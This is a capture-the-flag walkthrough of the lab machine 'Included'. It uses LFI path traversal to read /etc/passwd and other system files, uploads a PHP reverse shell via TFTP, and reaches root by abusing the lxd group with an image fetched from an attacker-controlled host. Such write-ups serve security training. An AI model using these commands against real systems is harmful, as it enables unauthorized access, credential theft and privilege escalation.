 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

![alt text](./img/included.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.55 -e tun0 --rate=1000  
![alt text](./img/included01.PNG?raw=true)  

Ok, the url look’s vulnerable to LFI. So let's test it  
![alt text](./img/included02.PNG?raw=true)  
  
![alt text](./img/included03.PNG?raw=true)  

BINGO!

## Exploit  
Let’s use curl to get a clean view of the files  
curl -v http://10.10.10.55/?file=../../../../../../../../../../../../etc/passwd  
![alt text](./img/included04.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../etc/issue  
![alt text](./img/included05.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../proc/version  
![alt text](./img/included06.PNG?raw=true)  

In the passwd we could see a user TFTP, maybe this service is active. Let’s try to connect to it and put a file in the server  
![alt text](./img/included07.PNG?raw=true)  

Perfect, create a php reverse shell page and upload it to the target.  
You can search the web for one or use the /usr/share/webshells/php/php-reverse-shell.php file, don’t forget to change de $ip and $port to yours

After upload it set up a netcat listener in the port you put in the file and let’s access the uploaded file.  
In the passwd we can see that the path of the tftp user is /var/lib/tftpboot, so the file is in this folder  
http://10.10.10.55/?file=../../../../../../../../../../../var/lib/tftpboot/shell-eldruin.php  
![alt text](./img/included08.PNG?raw=true)  

HABEMUS SHELL \o/\

## Privesc  
Run this command to get a better shell -> python3 -c 'import pty;pty.spawn("/bin/bash")'

We are logged as www-data and we don’t have permission to read the user.txt (inside mike’s folder). So let’s try to privesc  
![alt text](./img/included09.PNG?raw=true)  

Since this is a continuation of the PATHFINDER machine, let’s try to log as mike with the password found on that machine  
![alt text](./img/included10.PNG?raw=true)  

Now we can get back to mike’s home directory and read the flag. Time to root…..

Mike is in the lxd group, so we can try to use the lxd-alpine to get root  
![alt text](./img/included11.PNG?raw=true)  

Just execute the commands in the followed order and you will get root:  
For a better explanation check this [link](https://www.hackingarticles.in/lxd-privilege-escalation/)  
> In your machine:  
git clone  https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
./build-alpine
check the name of the created file
sudo python3 -m http.server 80  

> On target machine  
cd /tmp  
wget http://YOUR_IP/CREATED_ALPINE_FILE
lxc image import ./CREATED_ALPINE_FILE --alias myimage  
lxc image list  
lxc init myimage ignite -c security.privileged=true  
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
lxc start ignite  
lxc exec ignite /bin/sh  
id  

![alt text](./img/included12.PNG?raw=true)  
  
It’s a little ugly, but is a root shell

To catch the flag just go to /mnt/root/root  
![alt text](./img/included13.PNG?raw=true)  

## Discoveries
As you could see there is a login.sql and inside we have another credential  
![alt text](./img/included14.PNG?raw=true)  

